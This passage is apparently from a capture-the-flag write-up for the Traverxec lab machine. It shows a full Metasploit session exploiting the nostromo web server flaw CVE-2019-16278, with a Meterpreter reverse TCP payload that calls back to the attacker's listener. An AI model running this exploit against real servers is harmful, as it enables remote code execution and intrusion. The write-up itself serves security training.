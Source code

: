 Given the name of this box, we're certainly going to be exploiting this to gain our initial foothold. 


# Exploitation

## Foothold  

We can use Metasploit's module for [CVE-2019-16278](https://github.com/rapid7/metasploit-framework/pull/12476) and get a Meterpreter session on the box.

```
root@kali:~# msfconsole
[-] ***
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v5.0.58-dev                          ]
+ -- --=[ 1936 exploits - 1079 auxiliary - 333 post       ]
+ -- --=[ 556 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > set RHOSTS traverxec.htb
RHOSTS => traverxec.htb
msf5 > set LPORT 80
LPORT => 80
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 10.10.15.60
LHOST => 10.10.15.60
msf5 exploit(multi/http/nostromo_code_exec) > set LPORT 1337
LPORT => 1337
msf5 exploit(multi/http/nostromo_code_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/nostromo_code_exec) > set target 1
target => 1
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.15.60:1337 
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Sending stage (3021284 bytes) to 10.10.10.165
[*] Command Stager progress - 100.00% done (823/823 bytes)
```